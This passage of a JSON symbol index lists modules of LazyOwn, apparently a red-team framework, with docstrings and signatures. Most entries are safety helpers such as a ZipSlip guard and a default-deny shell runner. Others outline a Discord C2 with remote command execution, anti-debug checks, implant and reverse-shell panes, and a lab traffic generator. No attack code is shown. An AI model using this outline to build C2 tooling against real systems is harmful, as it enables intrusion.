Clone timeout in seconds.\n\nReturns:\n    CompletedProcess result.\n\nRaises:\n    UrlValidationError: If the URL is invalid.", "kind": "function", "line": 234, "name": "safe_git_clone", "signature": "def safe_git_clone(repo_url, target_dir)"}, {"doc": "Parse IP addresses from ``ip show`` output in Python.\n\nReplaces shell pipes like ``ip a show ... | awk | grep | cut``.\n\nArgs:\n    interface: The ip show filter argument.\n\nReturns:\n    List of dicts with 'interface' and 'address' keys.", "kind": "function", "line": 268, "name": "safe_ip_show", "signature": "def safe_ip_show(interface)"}, {"doc": "Find a tool on PATH using shutil.which.\n\nReplaces hardcoded paths like ``/usr/local/bin/go``.\n\nArgs:\n    name: The executable name to find.\n\nReturns:\n    Absolute path to the tool, or None if not found.", "kind": "function", "line": 305, "name": "safe_find_tool", "signature": "def safe_find_tool(name)"}, {"doc": "Read a file safely with a size limit.\n\nArgs:\n    path: File path to read.\n    max_bytes: Maximum bytes to read.\n\nReturns:\n    File contents as string.\n\nRaises:\n    ValueError: If the file exceeds max_bytes.\n    FileNotFoundError: If the file does not exist.", "kind": "function", "line": 321, "name": "safe_file_read", "signature": "def safe_file_read(path)"}]}, {"doc": "Fail-closed import of attacker-supplied campaign packages.  Campaign ``.zip`` files arrive from other operators and may be malicious. This module owns the two trust boundaries of the import path: archive extraction (ZipSlip) and schema merge (second-order SQL from hostile column names). Callers in ``cli/commands/campaign`` must route through these helpers instead of ``extractall`` and raw ``\", \".join(columns)``.", "id": "core/safe_import.py", "kind": "module", "label": "safe_import.py", "language": "py", "sha256": "9fa5e2f42def1449", "symbol_count": 4, "symbols": [{"doc": "Return True when ``name`` is a bare SQL identifier.\n\nArgs:\n    name: Candidate column or table fragment.\n\nReturns:\n    True for ``[A-Za-z_][A-Za-z0-9_]*``, False otherwise.", "kind": "function", "line": 20, "name": "is_safe_identifier", "signature": "def is_safe_identifier(name)"}, {"doc": "Intersect source columns with destination columns, safely.\n\nOnly names present in the destination schema and matching the\nbare-identifier pattern survive, in source order. Hostile or\nunknown columns are dropped so one poisoned column cannot break\nor inject into the whole import.\n\nArgs:\n    src_columns: Column names read from the imported database.\n    dest_columns: Column names of the destination table.\n\nReturns:\n    Safe ordered subset of ``src_columns``.", "kind": "function", "line": 32, "name": "filter_columns", "signature": "def filter_columns(src_columns, dest_columns)"}, {"doc": "Extract a zip archive with ZipSlip protection.\n\nEvery member is validated before writing: absolute paths, parent\nreferences and symlink entries are skipped, and the resolved\ntarget must stay inside ``dest`` after symlink resolution.\n\nArgs:\n    archive: Path to the ``.zip`` file.\n    dest: Directory receiving the extracted tree.\n\nReturns:\n    Relative paths of the extracted members.", "kind": "function", "line": 51, "name": "safe_extract_zip", "signature": "def safe_extract_zip(archive, dest)"}, {"doc": "Copy a directory tree without symlink escape.\n\nMirrors the campaign session-restore loop: symlinks are never\nfollowed, and every destination stays inside ``dest``.\n\nArgs:\n    src: Source directory.\n    dest: Destination directory.\n\nReturns:\n    Number of files copied.", "kind": "function", "line": 93, "name": "safe_copy_tree", "signature": "def safe_copy_tree(src, dest)"}]}, {"doc": "Safe subprocess runner for the LazyOwn framework.  Contract: this module replaces the legacy ``subprocess.run(..., shell=True, ...)`` call sites that pepper :mod:`utils` and :mod:`lazyc2`. The default behaviour is to refuse shell execution; callers that genuinely need the shell must pass ``allow=True`` and a free-text ``reason`` that is recorded in the audit log together with the returncode.  Invariants:  1. :meth:`SafeRunner.run_shell` raises :class:`ShellNotAllowedError` when ``allow`` is missing or ``False``. 2. :meth:`SafeRunner.run_shell` requires a non-empty ``reason``; an empty string raises :class:`ValueError`. 3. :meth:`SafeRunner.run` (argv list) is always allowed and never audits. 4. The audit log, when configured, receives a single JSON line per ``run_shell`` call (allowed and denied attempts alike). 5. The returned :class:`SafeRunResult` exposes ``returncode``, ``stdout``, ``stderr`` and ``duration_seconds``.  Config keys owned: none (the audit log path is supplied at construction).", "id": "core/safe_subprocess.py", "kind": "module", "label": "safe_subprocess.py", "language": "py", "sha256": "a77be649b9e4b23f", "symbol_count": 7, "symbols": [{"doc": "Raised when a shell invocation is attempted without ``allow=True``.", "kind": "class", "line": 39, "name": "ShellNotAllowedError", "signature": "class ShellNotAllowedError(PermissionError)"}, {"doc": "Outcome of a :class:`SafeRunner` invocation.\n\nAttributes:\n    returncode: The exit code of the process.\n    stdout: Captured standard output.\n    stderr: Captured standard error.\n    duration_seconds: Wall-clock execution time.", "kind": "class", "line": 44, "name": "SafeRunResult", "signature": "class SafeRunResult"}, {"doc": "Default-deny shell runner used by the LazyOwn framework.\n\nArgs:\n    audit_log_path: Optional filesystem path. When provided, every\n        ``run_shell`` call is appended as a single JSON line.", "kind": "class", "line": 60, "name": "SafeRunner", "signature": "class SafeRunner"}, {"kind": "method", "line": 70, "name": "__init__", "signature": "def __init__(self, audit_log_path)"}, {"doc": "Execute ``argv`` without invoking a shell.\n\nArgs:\n    argv: The program and its arguments as a sequence of strings.\n    timeout: Optional wall-clock timeout in seconds.\n\nReturns:\n    A :class:`SafeRunResult` describing the outcome.\n\nRaises:\n    FileNotFoundError: if the program does not exist.\n    subprocess.TimeoutExpired: if the timeout elapses.", "kind": "method", "line": 73, "name": "run", "signature": "def run(self, argv)"}, {"doc": "Execute ``command`` through the system shell, gated by policy.\n\nArgs:\n    command: The shell command to run.\n    allow: Must be ``True`` to execute; otherwise a\n        :class:`ShellNotAllowedError` is raised (and audited).\n    reason: Free-text justification, recorded in the audit log.\n        Required when ``allow`` is ``True``.\n    timeout: Optional wall-clock timeout in seconds.\n\nReturns:\n    A :class:`SafeRunResult` describing the outcome.\n\nRaises:\n    ShellNotAllowedError: when ``allow`` is not ``True``.\n    ValueError: when ``allow`` is ``True`` but ``reason`` is empty.", "kind": "method", "line": 105, "name": "run_shell", "signature": "def run_shell(self, command)"}, {"kind": "method", "line": 176, "name": "_audit", "signature": "def _audit(self, record)"}]}, {"doc": "Centralized task scheduler for the LazyOwn framework.  Uses ``apscheduler`` when available, falling back to a stdlib implementation built on ``sched.scheduler`` and ``threading.Timer`` for environments where the library is not installed. Thread-safe for concurrent task registration and cancellation from any thread.  Usage::  from core.scheduler import get_scheduler  sched = get_scheduler() sched.start() sched.schedule_task(\"heartbeat\", 30, send_heartbeat) sched.schedule_once(\"cleanup\", 60, remove_temp_files) sched.stop()", "id": "core/scheduler.py", "kind": "module", "label": "scheduler.py", "language": "py", "sha256": "d5a3a1f073fe4f11", "symbol_count": 17, "symbols": [{"kind": "class", "line": 41, "name": "_TaskInfo", "signature": "class _TaskInfo"}, {"doc": "Thread-safe scheduler for recurring and one-shot tasks.\n\nAutomatically selects ``apscheduler`` (BackgroundScheduler) when\navailable, falling back to a stdlib implementation using\n``sched.scheduler`` and ``threading.Timer`` otherwise.", "kind": "class", "line": 50, "name": "TaskScheduler", "signature": "class TaskScheduler"}, {"doc": "Return the singleton ``TaskScheduler`` instance.", "kind": "function", "line": 285, "name": "get_scheduler", "signature": "def get_scheduler()"}, {"kind": "method", "line": 61, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Return the singleton ``TaskScheduler`` instance.", "kind": "method", "line": 73, "name": "instance", "signature": "def instance(cls)"}, {"doc": "Start the scheduler background thread.\n\nIdempotent: calling ``start()`` on an already-running scheduler is a\nno-op.", "kind": "method", "line": 81, "name": "start", "signature": "def start(self)"}, {"doc": "Stop the scheduler and cancel all pending tasks.\n\nIdempotent: calling ``stop()`` on an already-stopped scheduler is a\nno-op.", "kind": "method", "line": 100, "name": "stop", "signature": "def stop(self)"}, {"doc": "Register a recurring task to run every ``interval_seconds``.\n\nIf a task with the same ``name`` already exists it is cancelled and\nreplaced.\n\nArgs:\n    name: Unique identifier for the task.\n    interval_seconds: Seconds between invocations.\n    func: Zero-argument callable to invoke each cycle.", "kind": "method", "line": 123, "name": "schedule_task", "signature": "def schedule_task(self, name, interval_seconds, func)"}, {"doc": "Register a one-shot task to run after ``delay_seconds``.\n\nIf a task with the same ``name`` already exists it is cancelled and\nreplaced.\n\nArgs:\n    name: Unique identifier for the task.\n    delay_seconds: Seconds to delay before invocation.\n    func: Zero-argument callable to invoke.", "kind": "method", "line": 157, "name": "schedule_once", "signature": "def schedule_once(self, name, delay_seconds, func)"}, {"doc": "Cancel a scheduled task by name.\n\nNo error is raised if the task does not exist.\n\nArgs:\n    name: Identifier of the task to cancel.", "kind": "method", "line": 192, "name": "cancel_task", "signature": "def cancel_task(self, name)"}, {"doc": "Return metadata for all registered tasks.\n\nReturns:\n    A list of dictionaries with keys ``name``, ``interval_seconds``,\n    ``recurring``, ``active``, and ``next_run_iso``.", "kind": "method", "line": 205, "name": "list_tasks", "signature": "def list_tasks(self)"}, {"doc": "Cancel a task without holding ``_lock``.\n\nCalled from within locked sections only.", "kind": "method", "line": 224, "name": "_cancel_internal", "signature": "def _cancel_internal(self, name)"}, {"doc": "Schedule a recurring task using ``sched.scheduler``.", "kind": "method", "line": 238, "name": "_schedule_recurring_stdlib", "signature": "def _schedule_recurring_stdlib(self, info)"}, {"doc": "Return a callable that invokes ``func`` once and removes the task.", "kind": "method", "line": 254, "name": "_run_once_wrapper", "signature": "def _run_once_wrapper(self, name, func)"}, {"doc": "Main loop for the stdlib scheduler backend.\n\nRuns sched actions in a tight loop with a periodic check on the stop\nevent, so ``stop()`` is responsive even when no events are pending.", "kind": "method", "line": 268, "name": "_run_stdlib_loop", "signature": "def _run_stdlib_loop(self)"}, {"kind": "function", "line": 241, "name": "_wrapper", "signature": "def _wrapper()"}, {"kind": "function", "line": 257, "name": "_wrapper", "signature": "def _wrapper()"}]}, {"doc": "Security helpers for LazyOwn — anti-debug, certificate generation.  Extracted from ``utils.py`` to break the giant monolith and keep security-critical code in one auditable location.", "id": "core/security.py", "kind": "module", "label": "security.py", "language": "py", "sha256": "33eb3df1d6324bab", "symbol_count": 2, "symbols": [{"doc": "Check for debugger attachment and exit if found.\n\nReads ``/proc/self/status`` for ``TracerPid``. If a tracer is\nattached and we are not running under a legitimate dev tool\n(gdb, strace, ltrace will show), the process exits immediately.\n\nThis is called at import time by both ``lazyown.py`` and\n``lazyc2.py``.", "kind": "function", "line": 18, "name": "anti_debug", "signature": "def anti_debug()"}, {"doc": "Generate a self-signed CA certificate and key pair.\n\nCreates ``cert.pem`` and ``key.pem`` in the current directory (or\n``output_dir`` if specified). Uses OpenSSL with 4096-bit RSA and\na 3650-day validity period.\n\nArgs:\n    output_dir: Optional directory to write the certificate files\n        into. Defaults to the current working directory.\n\nReturns:\n    Tuple of ``(cert_path, key_path)`` absolute paths.", "kind": "function", "line": 58, "name": "generate_certificates", "signature": "def generate_certificates(output_dir)"}]}, {"doc": "Terminal state guard for interactive automation.  Child processes, curses apps, Rich ``Live`` regions and interrupted prompts can leave a terminal in raw mode, with echo off, mouse reporting on or the alternate screen active. This module snapshots the termios attributes before the loop starts and restores them on exit, atexit and explicit calls, then emits the standard sequences that undo the modes a crashed child may have enabled.", "id": "core/terminal_guard.py", "kind": "module", "label": "terminal_guard.py", "language": "py", "sha256": "46c02dd73b257c19", "symbol_count": 8, "symbols": [{"doc": "Return a writable tty fd for the process, or None when headless.", "kind": "function", "line": 30, "name": "_tty_fd", "signature": "def _tty_fd()"}, {"doc": "Write the mode-reset sequences to the controlling terminal.\n\nA crashed child can leave mouse tracking or the alternate screen on;\nthose modes are not part of termios, so the bytes go straight to\n``/dev/tty`` (or stdout when that is the tty).", "kind": "function", "line": 41, "name": "emit_restore_sequences", "signature": "def emit_restore_sequences()"}, {"doc": "Best-effort ``stty sane`` fallback when termios restore fails.", "kind": "function", "line": 62, "name": "apply_stty_sane", "signature": "def apply_stty_sane()"}, {"doc": "Snapshot termios on enter and restore it on every exit path.\n\nUsage::\n\n    with TerminalGuard():\n        run_interactive_thing()\n\nThe guard is reentrant-safe enough for nested use: each instance\nkeeps its own snapshot and restores only its own.", "kind": "class", "line": 73, "name": "TerminalGuard", "signature": "class TerminalGuard"}, {"doc": "Prepare an empty guard; the snapshot happens on ``__enter__``.", "kind": "method", "line": 85, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Capture current termios attributes when a tty is present.", "kind": "method", "line": 91, "name": "__enter__", "signature": "def __enter__(self)"}, {"doc": "Restore the terminal on context exit.", "kind": "method", "line": 104, "name": "__exit__", "signature": "def __exit__(self)"}, {"doc": "Restore saved termios, then reset extra terminal modes once.", "kind": "method", "line": 108, "name": "restore", "signature": "def restore(self)"}]}, {"doc": "Shared text helpers for terminal surfaces.  Single source of truth for truncating display strings. Replaces eight near-identical ``_truncate`` copies across ``cli/``.", "id": "core/text_utils.py", "kind": "module", "label": "text_utils.py", "language": "py", "sha256": "71079ab43819735f", "symbol_count": 1, "symbols": [{"doc": "Truncate value to max_len using marker.\n\nArgs:\n    value: Text to truncate. None becomes empty string.\n    max_len: Maximum output length including marker.\n    marker: Suffix appended when truncation occurs.\n\nReturns:\n    Truncated string of at most max_len characters.", "kind": "function", "line": 10, "name": "truncate_text", "signature": "def truncate_text(value, max_len, marker)"}]}, {"doc": "Input validators for runtime configuration values.  These helpers were historically in ``utils.py`` and are imported by ~280 CLI commands and ~80 C2 routes. They emit a coloured error message to stdout and return ``False`` when the value is missing, so callers can short-circuit without raising.", "id": "core/validators.py", "kind": "module", "label": "validators.py", "language": "py", "sha256": "2c247fcc158b295c", "symbol_count": 8, "symbols": [{"doc": "Return ``True`` if ``rhost`` is set, otherwise print an error and return ``False``.", "kind": "function", "line": 26, "name": "check_rhost", "signature": "def check_rhost(rhost)"}, {"doc": "Return ``True`` if ``lhost`` is set, otherwise print an error and return ``False``.", "kind": "function", "line": 40, "name": "check_lhost", "signature": "def check_lhost(lhost)"}, {"doc": "Return ``True`` if ``lport`` is set, otherwise print an error and return ``False``.", "kind": "function", "line": 54, "name": "check_lport", "signature": "def check_lport(lport)"}, {"doc": "Return ``True`` if ``port`` is a valid TCP/UDP port (1-65535).", "kind": "function", "line": 64, "name": "check_port", "signature": "def check_port(port, name)"}, {"doc": "Gate a command on a valid ``rhost`` looked up from ``params``.\n\nReplaces the ``params['rhost']`` + ``check_rhost`` two-liner with a\nsingle fail-closed call that never raises ``KeyError`` on a\nmissing key.\n\nArgs:\n    params: Live params mapping (``self.params`` in CommandSets).\n\nReturns:\n    Result of :func:`check_rhost` on the looked-up value.", "kind": "function", "line": 77, "name": "require_rhost", "signature": "def require_rhost(params)"}, {"doc": "Gate a command on a valid ``lhost`` looked up from ``params``.\n\nArgs:\n    params: Live params mapping (``self.params`` in CommandSets).\n\nReturns:\n    Result of :func:`check_lhost` on the looked-up value.", "kind": "function", "line": 94, "name": "require_lhost", "signature": "def require_lhost(params)"}, {"doc": "Gate a command on a valid ``lport`` looked up from ``params``.\n\nArgs:\n    params: Live params mapping (``self.params`` in CommandSets).\n\nReturns:\n    Result of :func:`check_lport` on the looked-up value.", "kind": "function", "line": 107, "name": "require_lport", "signature": "def require_lport(params)"}, {"doc": "Gate a command on a valid ``rport`` looked up from ``params``.\n\nArgs:\n    params: Live params mapping (``self.params`` in CommandSets).\n\nReturns:\n    Result of :func:`check_port` on the looked-up value.", "kind": "function", "line": 120, "name": "require_rport", "signature": "def require_rport(params)"}]}, {"doc": "Fake network traffic generator for the AD mini range.  Emits periodic SMB/Kerberos-like TCP probes plus fake user logons so junior operators practice implant deployment and lateral movement against a noisy, legal, fully local background. Targets resolve over the compose network, so no fixed subnet is required.", "id": "deploy/range/ad-mini/traffic-gen.py", "kind": "module", "label": "traffic-gen.py", "language": "py", "sha256": "4402194d5a7494f1", "symbol_count": 2, "symbols": [{"doc": "Attempt one short TCP connection, ignoring failures.\n\nArgs:\n    host: Target hostname on the range network.\n    port: Target TCP port.", "kind": "function", "line": 21, "name": "_probe", "signature": "def _probe(host, port)"}, {"doc": "Loop forever emitting fake background traffic.", "kind": "function", "line": 35, "name": "main", "signature": "def main()"}]}, {"id": "discord_c2.py", "kind": "module", "label": "discord_c2.py", "language": "py", "sha256": "67d3ff74c0d2697d", "symbol_count": 21, "symbols": [{"kind": "class", "line": 27, "name": "SecureSessionManager", "signature": "class SecureSessionManager"}, {"kind": "class", "line": 86, "name": "Config", "signature": "class Config"}, {"kind": "function", "line": 96, "name": "load_payload", "signature": "def load_payload()"}, {"kind": "function", "line": 103, "name": "on_ready", "signature": "def on_ready()"}, {"kind": "function", "line": 108, "name": "start", "signature": "def start(ctx)"}, {"kind": "function", "line": 130, "name": "exce_cmd", "signature": "def exce_cmd(ctx)"}, {"kind": "function", "line": 206, "name": "add_cli", "signature": "def add_cli(ctx, new_client_id)"}, {"kind": "function", "line": 216, "name": "handle_file", "signature": "def handle_file(ctx)"}, {"kind": "function", "line": 245, "name": "download_c2", "signature": "def download_c2(ctx, client_id, file_name)"}, {"kind": "function", "line": 256, "name": "send_connected_clients", "signature": "def send_connected_clients(ctx)"}, {"kind": "function", "line": 273, "name": "clients", "signature": "def clients(ctx)"}, {"kind": "function", "line": 278, "name": "addcli", "signature": "def addcli(ctx, new_client_id)"}, {"kind": "function", "line": 283, "name": "c2", "signature": "def c2(ctx)"}, {"kind": "method", "line": 28, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 33, "name": "register_failed_attempt", "signature": "def register_failed_attempt(self, user_id)"}, {"kind": "method", "line": 40, "name": "check_lockout", "signature": "def check_lockout(self, user_id)"}, {"kind": "method", "line": 49, "name": "check_rate_limit", "signature": "def check_rate_limit(self, user_id)"}, {"kind": "method", "line": 62, "name": "create_session", "signature": "def create_session(self, user_id, client_id)"}, {"kind": "method", "line": 70, "name": "validate_session", "signature": "def validate_session(self, user_id)"}, {"kind": "method", "line": 87, "name": "__init__", "signature": "def __init__(self, config_dict)"}, {"kind": "method", "line": 92, "name": "__getitem__", "signature": "def __getitem__(self, key)"}]}, {"doc": "Nombre del script: download_resources.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 31/07/2024 Descripción: Este script contiene la lógica principal de la aplicación. download_resources Licencia: GPL v3  Función para manejar señales (como Ctrl+C)", "id": "external/install_external.sh", "kind": "module", "label": "install_external.sh", "language": "sh", "sha256": "b6140af4ba119e38", "symbol_count": 2, "symbols": [{"kind": "function", "line": 18, "name": "download"}, {"kind": "function", "line": 13, "name": "ctrl_c"}]}, {"doc": "fast_run_as_r00t.sh — LazyOwn full-stack orchestrator  Speed-run launcher: brings up every core service in a tmux session.  Fixed panes: [0] Recon        — lazynmap full scan [1] Network      — addhosts + ping sweep [2] C2 implant   — createcredentials + c2 launch [3] Auto-loop    — autonomous loop (waits SLEEP_START) [4] lazyc2       — Flask C2 server (unprivileged) [5] www          — HTTP file server + certs [6] VPN          — tun interface  Optional panes (driven by payload.json flags): DeepSeek/Ollama, Discord C2, Telegram C2, Cloudflare tunnel, NC revshell", "id": "fast_run_as_r00t.sh", "kind": "module", "label": "fast_run_as_r00t.sh", "language": "sh", "sha256": "524815ea95e9f51a", "symbol_count": 12, "symbols": [{"doc": "── Read payload.json ─────────────────────────────────────────────────────────", "kind": "function", "line": 31, "name": "_jq"}, {"doc": "── Pretty-print helpers ──────────────────────────────────────────────────────", "kind": "function", "line": 59, "name": "log"}, {"kind": "function", "line": 60, "name": "spin"}, {"kind": "function", "line": 61, "name": "err_box"}, {"doc": "── Ensure gum is installed ───────────────────────────────────────────────────", "kind": "function", "line": 67, "name": "ensure_gum"}, {"doc": "── Dependency check ──────────────────────────────────────────────────────────", "kind": "function", "line": 78, "name": "check_deps"}, {"doc": "── Re-exec as root if needed ─────────────────────────────────────────────────", "kind": "function", "line": 87, "name": "check_sudo"}, {"doc": "── CLI argument parsing ──────────────────────────────────────────────────────", "kind": "function", "line": 96, "name": "parse_args"}, {"doc": "Send one or more commands to the active tmux pane", "kind": "function", "line": 114, "name": "t_send"}, {"doc": "Open a new pane (split v or h), start LazyOwn shell with optional run flags, then send any follow-up commands once the shell is up. Usage: t_lazyown <v|h> <delay_secs> <run_flags> [cmd1] [cmd2] ...", "kind": "function", "line": 121, "name": "t_lazyown"}, {"doc": "Open a new pane running a command as unprivileged user 1000 (with venv). Usage: t_priv_user <v|h> <command_string>", "kind": "function", "line": 134, "name": "t_priv_user"}, {"doc": "── Background chown watcher ────────────────────────────────────────────────── Re-chowns the project tree to the operator UID/GID every $CHOWN_INTERVAL seconds while the tmux session is alive, so root-owned writes from the panes do not leave files the unprivileged user cannot read on the next ./run. Survives the parent script exiting (MCP mode --no-attach).", "kind": "function", "line": 145, "name": "start_chown_watcher"}]}, {"doc": "Verifica si se pasó una IP", "id": "gen_cert.sh", "kind": "module", "label": "gen_cert.sh", "language": "sh", "sha256": "ae20bcfa5f239351", "symbol_count": 0, "symbols": []}, {"doc": "LazyOwn installer.  Provisions system packages (Debian/Kali via apt), a Python virtualenv with the pinned dependency lock, external storage and encoder modules, and self-signed TLS certs. The default install is intentionally light; heavy extras are opt-in via flags.  Dependencies are declared once in pyproject.toml and pinned in requirements.txt / requirements-ml.txt. This script never duplicates the list.  Usage: bash install.sh [--profile light|full] [--with-ml] [--with-ollama] [--with-tools] [--no-ml] [--no-ollama] [--help]  --profile <name>  Install profile: full (default, everything in requirements.txt) or light (shell + C2 + recon core from requirements-light.txt, without the analytics/AI stack). Overridable per shell with LAZYOWN_PROFILE=light. --with-ml       Also install the heavy, platform-specific ML stack (torch/CUDA, sklearn ~2 GB). Skipped by default. --with-ollama   Also install the local Ollama runtime. Skipped by default. --with-tools    Also apt-install the common external pentest tools (gobuster, ffuf, enum4linux, seclists, responder, ...). --no-ml         Accepted for backwards compatibility (ML is off by default). --no-ollama     Accepted for backwards compatibility (Ollama is off by default). --help          Show this help and exit.", "id": "install.sh", "kind": "module", "label": "install.sh", "language": "sh", "sha256": "11fb289055718314", "symbol_count": 16, "symbols": [{"kind": "function", "line": 49, "name": "usage"}, {"kind": "function", "line": 88, "name": "log"}, {"kind": "function", "line": 98, "name": "spin_run"}, {"kind": "function", "line": 128, "name": "ensure_gum"}, {"kind": "function", "line": 139, "name": "install_system_packages"}, {"kind": "function", "line": 150, "name": "install_external_tools"}, {"kind": "function", "line": 165, "name": "install_python_environment"}, {"kind": "function", "line": 206, "name": "install_ollama"}, {"kind": "function", "line": 218, "name": "install_external_storage"}, {"kind": "function", "line": 231, "name": "install_lazyownbt"}, {"kind": "function", "line": 251, "name": "download_file"}, {"kind": "function", "line": 263, "name": "install_encoder_module"}, {"kind": "function", "line": 274, "name": "generate_certificates"}, {"kind": "function", "line": 281, "name": "seed_payload_config"}, {"kind": "function", "line": 294, "name": "verify_installation"}, {"kind": "function", "line": 310, "name": "main"}]}, {"id": "key.py", "kind": "module", "label": "key.py", "language": "py", "sha256": "c6127ae36acafd69", "symbol_count": 1, "symbols": [{"kind": "function", "line": 10, "name": "main", "signature": "def main()"}]}, {"id": "lazy_sentinel4.py", "kind": "module", "label": "lazy_sentinel4.py", "language": "py", "sha256": "7bfa71c381a50754", "symbol_count": 47, "symbols": [{"doc": "Sanitize text to ensure it's safe for rendering.", "kind": "function", "line": 47, "name": "sanitize_content", "signature": "def sanitize_content(text)"}, {"doc": "Manages RAG functionality with CAG caching for document processing and querying.", "kind": "class", "line": 58, "name": "RAGManager", "signature": "class RAGManager"}, {"kind": "class", "line": 214, "name": "Database", "signature": "class Database"}, {"kind": "class", "line": 271, "name": "Alert", "signature": "class Alert"}, {"kind": "class", "line": 302, "name": "LazySentinelHandler", "signature": "class LazySentinelHandler(FileSystemEventHandler)"}, {"kind": "class", "line": 340, "name": "LazySentinel", "signature": "class LazySentinel"}, {"kind": "class", "line": 544, "name": "App", "signature": "class App(Cmd)"}, {"kind": "method", "line": 61, "name": "__init__", "signature": "def __init__(self, model_name, cache_size)"}, {"kind": "method", "line": 73, "name": "initialize_cache_table", "signature": "def initialize_cache_table(self)"}, {"kind": "method", "line": 85, "name": "get_cache_key", "signature": "def get_cache_key(self, content)"}, {"kind": "method", "line": 88, "name": "load_existing_vectorstore", "signature": "def load_existing_vectorstore(self)"}, {"kind": "method", "line": 101, "name": "ollama_llm", "signature": "def ollama_llm(self, question, context)"}, {"kind": "method", "line": 115, "name": "process_file_to_rag", "signature": "def process_file_to_rag(self, file_path)"}, {"kind": "method", "line": 155, "name": "query_rag", "signature": "def query_rag(self, question)"}, {"kind": "method", "line": 177, "name": "invalidate_cache", "signature": "def invalidate_cache(self, file_path)"}, {"kind": "method", "line": 191, "name": "get_knowledge_base_stats", "signature": "def get_knowledge_base_stats(self)"}, {"kind": "method", "line": 215, "name": "__init__", "signature": "def __init__(self, db_path)"}, {"kind": "method", "line": 219, "name": "initialize", "signature": "def initialize(self)"}, {"kind": "method", "line": 243, "name": "execute", "signature": "def execute(self, query, params)"}, {"kind": "method", "line": 255, "name": "insert", "signature": "def insert(self, query, params)"}, {"kind": "method", "line": 274, "name": "__init__", "signature": "def __init__(self, alert_type, details, severity)"}, {"kind": "method", "line": 280, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 288, "name": "save_to_db", "signature": "def save_to_db(self, db)"}, {"kind": "method", "line": 303, "name": "__init__", "signature": "def __init__(self, lazysentinel)"}, {"kind": "method", "line": 306, "name": "is_text_file", "signature": "def is_text_file(self, file_path)"}, {"kind": "method", "line": 316, "name": "on_created", "signature": "def on_created(self, event)"}, {"kind": "method", "line": 328, "name": "on_modified", "signature": "def on_modified(self, event)"}, {"kind": "method", "line": 341, "name": "__init__", "signature": "def __init__(self, app, popup_queue, watch_dir, excluded_files, min_file_size)"}, {"kind": "method", "line": 361, "name": "chunk_text", "signature": "def chunk_text(self, text, chunk_size)"}, {"kind": "method", "line": 364, "name": "select_relevant_chunk", "signature": "def select_relevant_chunk(self, file_content, chunks)"}, {"kind": "method", "line": 378, "name": "parse_deepseek_response", "signature": "def parse_deepseek_response(self, response_text)"}, {"kind": "method", "line": 404, "name": "show_popup", "signature": "def show_popup(self, file_name, relevant_info, commands, details)"}, {"kind": "method", "line": 422, "name": "process_file", "signature": "def process_file(self, file_path)"}, {"kind": "method", "line": 538, "name": "stop", "signature": "def stop(self)"}, {"kind": "method", "line": 545, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Display a toastr-like notification for file processing alerts.", "kind": "method", "line": 559, "name": "display_toastr", "signature": "def display_toastr(self, file_name, relevant_info, commands, details, severity, duration)"}, {"doc": "Check the popup queue after each command and display toastr notifications.", "kind": "method", "line": 587, "name": "postcmd", "signature": "def postcmd(self, stop, line)"}, {"kind": "method", "line": 611, "name": "do_quit", "signature": "def do_quit(self, arg)"}, {"kind": "method", "line": 615, "name": "do_debug", "signature": "def do_debug(self, arg)"}, {"kind": "method", "line": 624, "name": "do_rag_query", "signature": "def do_rag_query(self, arg)"}, {"kind": "method", "line": 632, "name": "do_rag_add", "signature": "def do_rag_add(self, arg)"}, {"kind": "method", "line": 647, "name": "do_rag_status", "signature": "def do_rag_status(self, arg)"}, {"kind": "method", "line": 654, "name": "do_rag_toggle", "signature": "def do_rag_toggle(self, arg)"}, {"kind": "method", "line": 659, "name": "do_rag_bulk_add", "signature": "def do_rag_bulk_add(self, arg)"}, {"kind": "method", "line": 678, "name": "do_rag_search", "signature": "def do_rag_search(self, arg)"}, {"kind": "method", "line": 699, "name": "complete_rag_add", "signature": "def complete_rag_add(self, text, line, begidx, endidx)"}, {"kind": "method", "line": 706, "name": "complete_rag_bulk_add", "signature": "def complete_rag_bulk_add(self, text, line, begidx, endidx)"}]}, {"id": "lazyc2/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "4e3871818d0aa63b", "symbol_count": 0, "symbols": []}, {"doc": "LazyAddon creator contract for the LazyOwn C2 web interface.  Single source of truth for authoring ``lazyaddons/*.yaml`` files from the ``/addons/create`` form shipped with ``lazyc2.py``. The contract covers the full lifecycle: form parsing, validation, YAML rendering, and safe persistence, so the CLI loader in ``lazyown.py`` can register the resulting file as a first-class shell command.  Contracts: - AddonCreatorConfig: centralised constants and schema options - ParamSpec: immutable value object for one addon parameter - AddonDraft: mutable form state collected by the web layer - ValidationIssue: one field-specific validation finding - AddonValidationError: raised when a draft is not persistable - AddonValidator: pure validation returning field-specific issues - AddonYamlRenderer: renders an AddonDraft as canonical addon YAML - AddonStore: path-safe, atomic persistence inside the addons directory - parse_addon_form: adapts Flask form data into an AddonDraft  Design (SOLID): - Single Responsibility: validation, rendering, and persistence are separate collaborators, each with one reason to change - Open/Closed: new categories, OS values, or triggers extend the config constants without touching behaviour - Liskov: parse_addon_form accepts any Mapping, Flask MultiDict included, and every collaborator is independently replaceable - Interface Segregation: the Flask blueprint consumes only the small public surface below, never internal state - Dependency Inversion: the web layer depends on this contract, never the other way around", "id": "lazyc2/addon_creator.py", "kind": "module", "label": "addon_creator.py", "language": "py", "sha256": "cb1cb5b30b685efc", "symbol_count": 38, "symbols": [{"doc": "Centralised constants and schema options for the addon creator.\n\nEvery whitelist, pattern, length limit, and default value lives here\nso the contract stays data-driven and nothing is hardcoded in the\ncollaborators below.", "kind": "class", "line": 71, "name": "AddonCreatorConfig", "signature": "class AddonCreatorConfig"}, {"doc": "One addon parameter declared under the ``params`` key.\n\nAttributes:\n    name: Placeholder token, must match ``param_name_pattern``.\n    type: One of ``param_types``.\n    required: Whether the CLI refuses to run without a value.\n    description: Short help text shown to the operator.\n    default: Optional fallback value applied when payload.json\n        does not define the parameter.", "kind": "class", "line": 340, "name": "ParamSpec", "signature": "class ParamSpec"}, {"doc": "Complete addon form state collected from the web layer.", "kind": "class", "line": 373, "name": "AddonDraft", "signature": "class AddonDraft"}, {"doc": "One field-specific validation finding for the form.", "kind": "class", "line": 400, "name": "ValidationIssue", "signature": "class ValidationIssue"}, {"doc": "Raised when an AddonDraft cannot be persisted.\n\nAttributes:\n    issues: The collected ValidationIssue 